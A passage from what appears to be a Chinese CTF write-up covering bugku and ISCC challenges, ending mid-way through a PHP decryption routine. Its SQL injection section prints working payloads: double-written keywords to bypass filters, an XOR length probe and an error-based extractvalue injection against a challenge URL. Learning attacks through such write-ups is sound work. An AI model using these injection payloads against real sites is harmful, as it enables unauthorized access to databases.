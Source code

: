 完成！
参考资料：

https://www.cnblogs.com/52fhy/p/5436673.html

## 37.insert into 注入

另写一篇[xff注入+逗号屏蔽+时间注入+insert into注入](https://blog.csdn.net/s11show_163/article/details/104645900)

## 39.bugku学习之39.多次（检查过滤双写绕过过滤以及报错注入）

考察：

*   过滤的判断length
*   异或符号的使用：`id=1’ ^ (length(‘order’)!=0)%23`
*   双写绕过关键词过滤：`id=1’ oorrder by 3%23、 id=0’ uunionnion sselectelect 1,database()%23`
*   无法双写绕过时的盲注报错注入：`http://123.206.87.240:9004/Once_More.php?id=1' and extractvalue(1,concat(0x3a,database(),0x3a))%23`

另写一篇[过滤检查+双写绕过str_repalce+报错注入](https://blog.csdn.net/s11show_163/article/details/104660675)

## 40.PHP_encrypt_1(ISCCCTF)

考察：对应解密文件的编写。
这题直接给了一个php源文件

```
<?php
function encrypt($data,$key)
{
    $key = md5('ISCC');
    $x = 0;
    $len = strlen($data);
    $klen = strlen($key);
    for ($i=0; $i < $len; $i++) { 
        if ($x == $klen)
        {
            $x = 0;
        }
        $char .= $key[$x];
        $x+=1;
    }
    for ($i=0; $i < $len; $i++) {
        $str .= chr((ord($data[$i]) + ord($char[$i])) % 128);
    }
    return base64_encode($str);
}
?>
output: fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA= 
```

审计后发现是一个加密的过程，给了最后的输出，需要我们自己编写解密的过程，根据加密的过程一步步解密，decrypt代码如下：

```
<?php

function decrypt($str){
	$str = base64_decode($str); 
	$key = md5('ISCC'); 
	$x = 0; 
	$len = strlen($str); 
	$klen = strlen($key); 
	$char = ''; 
	$data = ''; 
	for($i = 0; $i < $len; $i++){ 
		if($x == $klen){
```